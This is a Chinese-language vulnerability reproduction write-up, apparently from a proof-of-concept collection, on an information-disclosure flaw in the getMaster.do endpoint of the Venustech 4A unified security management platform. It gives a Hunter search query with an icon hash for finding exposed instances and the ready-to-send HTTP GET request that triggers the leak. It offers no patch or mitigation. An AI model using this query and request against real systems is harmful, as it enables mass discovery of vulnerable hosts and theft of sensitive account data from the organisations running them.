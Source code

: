 # 启明星辰4A统一安全管控平台 getMaster.do 信息泄漏

# 一、漏洞简介
启明星辰4A统一安全管控平台实现对自然人、资源、资源账号的集中管理，建立“自然人账号-资源-资源账号”对应关系，实现自然人对资源的统一授权，同时，对授权人员的运维操作进行记录、分析、展现，做到作事前规划预防、事中实时监控、违规行为响应、事后合规报告、事故追踪回放，加强内部业务操作行为监管，实现日常运维和业务使用可视、可控、可信，完善安全管理体系。启明星辰4A统一安全管控平台 getMaster.do 存在信息泄漏漏洞。

# 二、影响版本
+ 启明星辰4A统一安全管控平台

# 三、资产测绘
+ hunter`web.icon=="fcae06c9415a39c361780b5c0e46ab89"&&web.title="4A"`

![1692348117528-970daf0c-24ec-4ed7-beef-dba36540eaaf.png](./img/HqxRRRRxVqMc1zm1/1692348117528-970daf0c-24ec-4ed7-beef-dba36540eaaf-235288.png)

+ 登录页面

![1692348142456-80423dc9-2684-4379-9606-d4c1a8468b6a.png](./img/HqxRRRRxVqMc1zm1/1692348142456-80423dc9-2684-4379-9606-d4c1a8468b6a-202217.png)

# 四、漏洞复现
```plain
GET /accountApi/getMaster.do HTTP/2
Host: xx.xx.xx.xx
Cookie: sid=7a5fa1f8-5025-4d3b-9101-26d9db5b2ce0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1692348257648-bcf13672-a23c-48c9-aa25-d55608875db4.png](./img/HqxRRRRxVqMc1zm1/1692348257648-bcf13672-a23c-48c9-aa25-d55608875db4-075599.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ic9nsb113n14pwvh>